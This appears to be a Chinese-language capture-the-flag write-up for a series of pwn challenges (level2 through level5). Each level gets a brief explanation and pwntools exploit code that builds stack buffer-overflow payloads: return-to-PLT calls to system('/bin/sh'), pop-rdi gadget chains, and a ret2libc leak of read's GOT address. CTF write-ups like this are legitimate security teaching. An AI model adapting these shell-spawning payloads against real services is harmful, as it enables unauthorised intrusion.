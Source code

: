 ### level2

本题中存在 `system` 函数，通过 ROPgadgets 搜索到了 `binsh` 字符串，构造调用 `system("/bin/sh")` 即可。

```python
binsh = 0x804a024
payload = flat('a'*(0x88+4),elf.plt['system'],'a'*4,binsh)
sla('Input:\n',payload)
```

### level2_x64

上一题的 64 位版本，需要通过 `pop rdi; ret` 的 gadget 传参。

```python
pop_rdi = 0x4006b3
binsh = 0x600a90
payload = flat('a'*(0x80+8),pop_rdi,binsh,elf.plt['system'])
sla('Input:\n',payload)
```

### level3

没有 system 和 binsh 但有 libc，因此常规 ret2libc。

```python
payload = flat('a'*(0x88+4),elf.plt['write'],elf.sym['main'],1,elf.got['read'],4)
ru('Input:\n')
sl(payload)
read =uu64(r(4))
leak('read',read)
system,binsh = ret2libc(read,'read')
payload = flat('a'*(0x88+4),system,'a'*4,binsh)
sla('Input:\n',payload)
```

### level3_x64 & level5

上题的 64 位版本，依然需要寄存器传参。

```python
pop_rdi = 0x4006b3
pop_rsi_r15 = 0x4006b1
payload = flat('a'*(0x80+8),pop_rdi,1,pop_rsi_r15,elf.got['read'],6,elf.plt['write'],elf.sym['main'])
ru('Input:\n')
sl(payload)
read =uu64(r(6))
leak('read',read)
system,binsh = ret2libc(read,'read')
payload = flat('a'*(0x80+8),pop_rdi,binsh,system)
sla('Input:\n',payload)
```

### level4
